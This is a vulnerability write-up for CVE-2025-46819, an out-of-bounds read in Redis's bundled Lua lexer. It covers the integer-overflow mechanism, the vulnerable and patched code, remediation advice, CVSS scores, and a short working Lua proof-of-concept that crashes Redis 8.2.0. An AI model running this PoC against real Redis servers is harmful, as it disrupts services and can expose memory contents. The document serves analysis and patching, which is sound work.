


# CVE-2025-46819 CWE-125&190 Redis Read Out of Bounds

## Vulnerability Background
- **Redis**: A key-value storage system that is a cross-platform non-relational database. An open-source in-memory database that provides a high-performance key-value storage system, commonly used in caching, message queues, session storage, and other application scenarios. Clients communicate with Redis servers via sockets, sending commands, and the server changes its state (i.e., its memory structure) to respond to such commands.

```txt
CWE-125: Out-of-bounds Read
The product reads data past the end, or before the beginning, of the intended buffer.

CWE-190: Integer Overflow or Wraparound
The product performs a calculation that can produce an integer overflow or wraparound when the logic assumes that the resulting value will always be larger than the original value. This occurs when an integer value is incremented to a value that is too large to store in the associated representation. When this occurs, the value may become a very small or negative number.
```

## Vulnerability Mechanism
During Lua's lexical analysis phase (lexer / `llex.c`), when encountering `[` or `]`, the `skip_sep` function is called to skip `=` symbol counting, thereby determining whether it is a valid "long bracket delimiter" ( `[=[ … ]=]` This Form). In affected versions, `skip_sep` logic is not strict (incorrect counting or return value settings), misidentifying a very large `sep` (equals) as a valid delimiter, then reading long string contents from the buffer, causing boundary errors, resulting in out-of-bounds reads or abnormal access to memory within Lua, resulting in information leaks or service crashes.

## Vulnerability Location
Analysis of the Redis-8.2.0 source code:

The vulnerability lies in the `deps/lua/src/llex.c` of the built-in Lua, formed by `skip_sep()`, `read_long_string()`, and `llex()`:

```c
static int skip_sep(LexState *ls) {
  int count = 0;
  int s = ls->current;
  save_and_next(ls);
  while (ls->current == '=') {
    save_and_next(ls);
    count++;                         /* may overflow signed int */
  }
  return (ls->current == s) ? count : (-count) - 1;
}

/* sep is later reused in pointer and length arithmetic. */
seminfo->ts = luaX_newstring(ls, luaZ_buffer(ls->buff) + (2 + sep),
                             luaZ_bufflen(ls->buff) - 2 * (2 + sep));
```

The extremely long `=` sequence causes signed `count` to overflow, and the old return encoding mixes valid separators, no `=`, and incomplete separators into positive and negative values; `llex()` Only use `sep >= 0` to check whether a long string has entered read. Incorrect `sep` ultimately participates in buffer pointer and length calculations, causing out-of-bounds reads. Fix the change to `size_t`, change the return convention to "Valid delimiter returns the number of equals plus 2, only read `sep >= 2`," and let the content offset directly use `sep` that already contains parentheses at both ends.

## Remediation

Upgrade to Redis 8.2.2 or later. If upgrading is delayed, prevent untrusted users from running Lua scripts or functions by restricting the `EVAL` and `FUNCTION` command families with ACL rules.

The patch rewrites `skip_sep` to use `size_t` and an unambiguous return convention. A delimiter is considered valid only when the return value is at least 2; malformed delimiters no longer feed overflowed values into the long-string buffer calculations.

Fixed `read_long_string` substring calculation: the original offset was replaced by `(2 + sep)` with `sep`, and the buffer length calculation changed from `-2*(2 + sep)` to `-2 * sep`. This is when parsing long strings (or long comments) by using more accurate offsets and lengths to avoid overreading or erroneous boundaries.

```cpp
diff --git a/deps/lua/src/llex.c b/deps/lua/src/llex.c
index 88c6790c076..efad7092220 100644
--- a/deps/lua/src/llex.c
+++ b/deps/lua/src/llex.c
@@ -138,6 +138,7 @@ static void inclinenumber (LexState *ls) {
 
 
 void luaX_setinput (lua_State *L, LexState *ls, ZIO *z, TString *source) {
+  ls->t.token = 0;
   ls->decpoint = '.';
   ls->L = L;
   ls->lookahead.token = TK_EOS;  /* no look-ahead token */
@@ -206,9 +207,13 @@ static void read_numeral (LexState *ls, SemInfo *seminfo) {
     trydecpoint(ls, seminfo); /* try to update decimal point separator */
 }
 
-
-static int skip_sep (LexState *ls) {
-  int count = 0;
+/*
+** reads a sequence '[=*[' or ']=*]', leaving the last bracket.
+** If a sequence is well-formed, return its number of '='s + 2; otherwise,
+** return 1 if there is no '='s or 0 otherwise (an unfinished '[==...').
+*/
+static size_t skip_sep (LexState *ls) {
+  size_t count = 0;
   int s = ls->current;
   lua_assert(s == '[' || s == ']');
   save_and_next(ls);
@@ -216,11 +221,13 @@ static int skip_sep (LexState *ls) {
     save_and_next(ls);
     count++;
   }
-  return (ls->current == s) ? count : (-count) - 1;
+   return (ls->current == s) ? count + 2
+          : (count == 0) ? 1
+          : 0;
 }
 
 
-static void read_long_string (LexState *ls, SemInfo *seminfo, int sep) {
+static void read_long_string (LexState *ls, SemInfo *seminfo, size_t sep) {
   int cont = 0;
   (void)(cont);  /* avoid warnings when `cont' is not used */
   save_and_next(ls);  /* skip 2nd `[' */
@@ -270,8 +277,8 @@ static void read_long_string (LexState *ls, SemInfo *seminfo, int sep) {
     }
   } endloop:
   if (seminfo)
-    seminfo->ts = luaX_newstring(ls, luaZ_buffer(ls->buff) + (2 + sep),
-                                     luaZ_bufflen(ls->buff) - 2*(2 + sep));
+    seminfo->ts = luaX_newstring(ls, luaZ_buffer(ls->buff) + sep,
+                                     luaZ_bufflen(ls->buff) - 2 * sep);
 }
 
 
@@ -346,9 +353,9 @@ static int llex (LexState *ls, SemInfo *seminfo) {
         /* else is a comment */
         next(ls);
         if (ls->current == '[') {
-          int sep = skip_sep(ls);
+          size_t sep = skip_sep(ls);
           luaZ_resetbuffer(ls->buff);  /* `skip_sep' may dirty the buffer */
-          if (sep >= 0) {
+          if (sep >= 2) {
             read_long_string(ls, NULL, sep);  /* long comment */
             luaZ_resetbuffer(ls->buff);
             continue;
@@ -360,13 +367,14 @@ static int llex (LexState *ls, SemInfo *seminfo) {
         continue;
       }
       case '[': {
-        int sep = skip_sep(ls);
-        if (sep >= 0) {
+        size_t sep = skip_sep(ls);
+        if (sep >= 2) {
           read_long_string(ls, seminfo, sep);
           return TK_STRING;
         }
-        else if (sep == -1) return '[';
-        else luaX_lexerror(ls, "invalid long string delimiter", TK_STRING);
+        else if (sep == 0)  /* '[=...' missing second bracket */
+          luaX_lexerror(ls, "invalid long string delimiter", TK_STRING);
+        return '[';
       }
       case '=': {
         next(ls);
```

## Affected Versions

- Redis releases with Lua scripting before 8.2.2

## Environment Setup
Starting the Docker environment, Redis version 8.2.0, contains the PoC file CVE-2025-46819-PoC.lua

```txt
NIST: NVD
Base Score: 7.1 HIGH  Vector:  CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:H

CNA:  GitHub, Inc.
Base Score: 6.3 MEDIUM  Vector:  CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:H/I:N/A:H
```

```txt
cpe:2.3:a:redis:redis:8.2.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line and run the PoC code; after running for a while, exit directly

   ```bash
   docker exec redis-8.2.0 redis-cli --eval CVE-2025-46819-PoC.lua
   ```

2. Check the container status and find that no container is currently running, meaning Redis has crashed and exited

   ```bash
   docker-compose ps
   ```

   

## PoC Analysis

```lua
local s = string.rep('=', 1024 * 1024) 
local t = {} for i=1,1024 do t[i] = s end
local sep = table.concat(t)
collectgarbage('collect')

local code = table.concat({'return [',sep,'[x]',sep,']'})
collectgarbage('collect')
local func = loadstring(code)
return #func()
```

## References
[NVD - CVE-2025-46819](https://nvd.nist.gov/vuln/detail/CVE-2025-46819)

[Redis security advisory GHSA-4c68-q8q8-3g4f](https://github.com/redis/redis/security/advisories/GHSA-4c68-q8q8-3g4f)

[LUA out-of-bound read (CVE-2025-46819) · redis/redis@3a1624d](https://github.com/redis/redis/commit/3a1624da2449ac3dbfc4bdaed43adf77a0b7bfba#diff-2bd78b1680983eed3f65a70c72ba0ac8c72edb949314027a3c20b9afda746eff)

[Redis 8.2.2 release](https://github.com/redis/redis/releases/tag/8.2.2)
